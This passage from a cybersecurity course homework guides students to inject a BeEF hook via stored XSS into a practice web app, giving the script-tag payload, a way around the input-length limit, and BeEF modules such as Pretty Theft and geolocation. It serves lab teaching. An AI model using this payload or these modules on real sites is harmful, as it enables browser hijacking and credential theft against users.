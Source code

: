      ![wd_hw19](Images/wd_hw19.png)

5. Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      - **Hint:** Try right-clicking and selecting "Inspecting the Element".
    
   - Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
     
     - Social Engineering >> Pretty Theft
     
     - Social Engineering >> Fake Notification Bar
     
     - Host >> Get Geolocation (Third Party)
    
6. **Deliverable**: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies. 

### Plagiarism Disclaimer

It is your responsibility to include a note in the READ ME section of your repo specifying code source and its location within your repo. This applies if you have worked with a peer on an assignment, used code which you did not author or create sourced from a forum such as Stack Overflow, or you received code outside curriculum content from support staff such as an Instructor, TA, Tutor, or Learning Assistant. This will provide visibility to grading staff of your circumstances in order to avoid flagging your work as plagiarized.

If you are struggling with a challenge or any aspect of the curriculum, please remember there are student support services available for you:

* Ask the class Slack channel/ peer support
* AskBCS Learning Assistants 
* Office hours facilitated by your TA(s)
* Tutor sessions (sign up via this link)
---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
